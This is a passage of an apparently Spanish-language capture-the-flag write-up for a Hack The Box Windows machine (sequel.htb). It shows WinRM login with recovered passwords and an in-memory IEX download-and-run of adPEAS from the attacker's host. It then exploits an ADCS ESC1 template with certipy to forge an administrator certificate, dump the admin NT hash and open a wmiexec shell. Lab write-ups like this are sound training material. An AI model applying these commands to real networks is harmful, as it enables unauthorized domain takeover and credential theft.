2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```


### Abusing WinRM - EvilWinRM

Verificaremos de que las credenciales son válidas para el usuario mencionado y si tenemos capacidad de conectarnos al equipo. Al comprobar el acceso, nos conectaremos al `DC` y verificaremos la flag **user.txt**.

```bash
❯ nxc winrm 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3'
WINRM       10.10.11.202    5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
WINRM       10.10.11.202    5985   DC               [+] sequel.htb\Ryan.Cooper:NuclearMosquito3 (Pwn3d!)
❯ evil-winrm -i 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> type ../Desktop/user.txt
4b79e2057279*********************
```

## Privilege Escalation

### DC Enumeration (adPEAS) - Powershell tool to automate Active Directory enumeration


```bash
❯ wget https://raw.githubusercontent.com/61106960/adPEAS/refs/heads/main/adPEAS.ps1
--2025-02-20 08:22:11--  https://raw.githubusercontent.com/61106960/adPEAS/refs/heads/main/adPEAS.ps1
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.108.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 3493853 (3,3M) [text/plain]
Grabando a: «adPEAS.ps1»

adPEAS.ps1                                                100%[==================================================================================================================================>]   3,33M  --.-KB/s    en 0,1s    

2025-02-20 08:22:12 (30,2 MB/s) - «adPEAS.ps1» guardado [3493853/3493853]

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> IEX (New-Object Net.WebClient).downloadString("http://10.10.16.3/adPEAS.ps1")
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> Invoke-adPEAS
```

```powershell
[?] +++++ Searching for Active Directory Certificate Services Information +++++
[+] Found at least one available Active Directory Certificate Service
adPEAS does basic enumeration only, consider reading https://posts.specterops.io/certified-pre-owned-d95910965cd2

[+] Found Active Directory Certificate Services 'sequel-DC-CA':
CA Name:				sequel-DC-CA
CA dnshostname:				dc.sequel.htb
CA IP Address:				10.10.11.202
Date of Creation:			11/18/2022 21:08:46
DistinguishedName:			CN=sequel-DC-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=sequel,DC=htb
NTAuthCertificates:			True
Available Templates:			UserAuthentication
					DirectoryEmailReplication
					DomainControllerAuthentication
					KerberosAuthentication
					EFSRecovery
					EFS
					DomainController
					WebServer
					Machine
					User
					SubCA
					Administrator

[?] +++++ Searching for Vulnerable Certificate Templates +++++
adPEAS does basic enumeration only, consider using https://github.com/GhostPack/Certify or https://github.com/ly4k/Certipy

[?] +++++ Checking Template 'UserAuthentication' +++++
[!] Template 'UserAuthentication' has Flag 'ENROLLEE_SUPPLIES_SUBJECT'
[!] Identity 'sequel\sql_svc' has 'GenericAll' permissions on template 'UserAuthentication'
[+] Identity 'sequel\Domain Users' has enrollment rights for template 'UserAuthentication'
Template Name:				UserAuthentication
Template distinguishedname:		CN=UserAuthentication,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=sequel,DC=htb
Date of Creation:			11/18/2022 21:10:22
[+] Extended Key Usage:			Client Authentication, Secure E-mail, Encrypting File System
EnrollmentFlag:				INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
[!] CertificateNameFlag:		ENROLLEE_SUPPLIES_SUBJECT
[!] Template Permissions:		sequel\sql_svc : GenericAll
[+] Enrollment allowed for:		sequel\Domain Users
```


### Abusing Active Directory Certificate Services (ADCS)


```bash
❯ sudo ntpdate -s 10.10.11.202
```


```bash
❯ certipy-ad find -u 'sql_svc'@10.10.11.202 -p 'REGGIE1234ronnie' -dc-ip 10.10.11.202 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC-CA' via RRP
[*] Got CA configuration for 'sequel-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC-CA
    DNS Name                            : dc.sequel.htb
    Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Certificate Validity Start          : 2022-11-18 20:58:46+00:00
    Certificate Validity End            : 2121-11-18 21:08:46+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates                   : [!] Could not find any certificate templates
```


```bash
❯ certipy-ad find -u 'Ryan.Cooper'@10.10.11.202 -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC-CA
    DNS Name                            : dc.sequel.htb
    Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Certificate Validity Start          : 2022-11-18 20:58:46+00:00
    Certificate Validity End            : 2121-11-18 21:08:46+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : UserAuthentication
    Display Name                        : UserAuthentication
    Certificate Authorities             : sequel-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Administrator
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

### ESC1 exploitation case with certipy-ad





```bash
❯ certipy-ad req -u Ryan.Cooper@sequel.htb -p "NuclearMosquito3" -ca sequel-DC-CA -template UserAuthentication -upn administrator@sequel.htb -dc-ip 10.10.11.202
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 15
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```


```bash
❯ certipy-ad auth -pfx administrator.pfx -username Administrator -domain sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```


```bash
❯ KRB5CCNAME=administrator.ccache wmiexec.py sequel.htb/Administrator@dc.sequel.htb -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
sequel\administrator

C:\>type C:\Users\Administrator\Desktop\root.txt
fbbbbb4a36374705a42e8563bd1709b7
```
